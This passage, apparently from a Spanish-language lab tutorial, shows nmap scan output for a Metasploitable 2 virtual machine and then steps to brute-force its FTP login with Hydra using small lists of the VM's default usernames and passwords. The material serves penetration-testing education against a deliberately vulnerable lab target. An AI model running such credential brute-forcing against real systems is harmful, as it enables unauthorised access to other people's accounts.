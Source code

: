 ```bash
5900/tcp open vnc VNC (protocol 3.3)
6000/tcp open X11 (access denied)
6667/tcp open irc UnrealIRCd
6697/tcp open irc UnrealIRCd
8009/tcp open ajp13 Apache Jserv (Protocol v1.3)
8180/tcp open http Apache Tomcat/Coyote JSP engine 1.1
8787/tcp open drb Ruby DRb RMI (Ruby 1.8; path /usr/lib/ruby/1.8/drb)
33881/tcp open status 1 (RPC #100024)
34382/tcp open nlockmgr 1-4 (RPC #100021)
40268/tcp open java-rmi GNU Classpath grmiregistry
56865/tcp open mountd 1-3 (RPC #100005)

MAC Address: 08:00:27:ED:89:3C (Oracle VirtualBox virtual NIC)
Service Info: Hosts: metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

# Nmap done at Sun Jul 30 14:41:46 2023 -- 1 IP address (1 host up) scanned in 128.14 seconds
```

---
## 4. Atacar el servicio ftp usando hydra

Crear una carpeta de trabajo y entrar ahí.
```bash
mkdir ms2 && cd ms2
```

Para conocer las opciones de hydra, ejecutar:
```bash
hydra -h
```

1. Crear un archivo de usuarios "users.txt" con el siguiente contenido en la carpeta de trabajo
```
msfadmin
service
user
postgres
```

2. Crear un archivo de passwords "passwords.txt" con el siguiente contenido en la carpeta de trabajo
```
msfadmin
service
user
postgres
```

3. Usar Hydra para probar usuarios y passwords usando los archivos creados anteriormente.
```bash
sudo hydra -L users.txt -P passwords.txt 10.0.200.5 ftp
```
